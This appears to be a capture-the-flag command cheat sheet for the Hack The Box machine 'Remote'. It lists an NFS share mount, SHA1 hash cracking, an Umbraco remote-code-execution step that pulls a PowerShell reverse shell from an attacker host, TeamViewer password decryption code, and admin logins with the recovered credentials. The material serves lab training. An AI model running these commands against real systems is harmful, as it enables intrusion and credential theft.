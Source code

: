## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)

## 🔍 **Recon**

```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.180
nmap -sV -sC -p 21,80,111,135,139,445,2049,5985,47001 -oA scans/nmap-tcpscripts 10.10.10.180
```

## 🌐 [**Web Enumeration**](HTTP)

- No specific commands listed for web recon (manual browsing used).
- Umbraco admin panel discovered at `/Umbraco`.

## 📂 **NFS Enumeration & Mounting**

```bash
showmount -e 10.10.10.180
mount -t nfs 10.10.10.180:/site_backups /mnt/
cd /mnt/App_Data
strings Umbraco.sdf | head
```

## 🔓 **Hash Cracking**

```bash
cat admin.sha1
# (file contains: b8be16afba8c314ad33d812f22a04991b90e2aaa)

hashcat -m 100 admin.sha1 /usr/share/wordlists/rockyou.txt --force
```

## 💥 **Exploit (Umbraco RCE)**

```bash
# Prepare PowerShell reverse shell
echo "Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.19 -Port 443" >> shell.ps1

# Serve the payload
python3 -m http.server 80

# Run exploit (Python script edited to call shell.ps1)
python umbraco_rce_iex.py
```

## 🐚 **Catch Reverse Shell**

```bash
rlwrap nc -lvnp 443
```

## 🔎 **Post-Exploit Enumeration (TeamViewer found)**

```powershell
tasklist
cd 'HKLM:\software\wow6432node\teamviewer\version7'
get-itemproperty -path .
(get-itemproperty -path .).SecurityPasswordAES
```

## 🔑 **Decrypt TeamViewer Password (Python)**

```python
#!/usr/bin/env python3
from Crypto.Cipher import AES

key = b"\x06\x02\x00\x00\x00\xa4\x00\x00\x52\x53\x41\x31\x00\x04\x00\x00"
iv = b"\x01\x00\x01\x00\x67\x24\x4F\x43\x6E\x67\x62\xF2\x5E\xA8\xD7\x04"
ciphertext = bytes([255, 155, 28, 115, 214, 107, 206, 49, 172, 65, 62, 174,
                    19, 27, 70, 79, 88, 47, 108, 226, 209, 225, 243, 218,
                    126, 141, 55, 107, 38, 57, 78, 91])
aes = AES.new(key, AES.MODE_CBC, IV=iv)
password = aes.decrypt(ciphertext).decode("utf-16").rstrip("\x00")
print(f"[+] Found password: {password}")
```

## 🪟 [**Admin Access**](SMB)

```bash
# Validate admin creds
crackmapexec smb 10.10.10.180 -u administrator -p '!R3m0te!'

# Evil-WinRM shell
evil-winrm -u administrator -p '!R3m0te!' -i 10.10.10.180

# Optional alternatives
psexec.py 'administrator:!R3m0te!@10.10.10.180'
wmiexec.py 'administrator:!R3m0te!@10.10.10.180'
```

---

📎 **Write-up Link**: [HTB: Remote by 0xdf](https://0xdf.gitlab.io/2020/09/05/htb-remote.html)
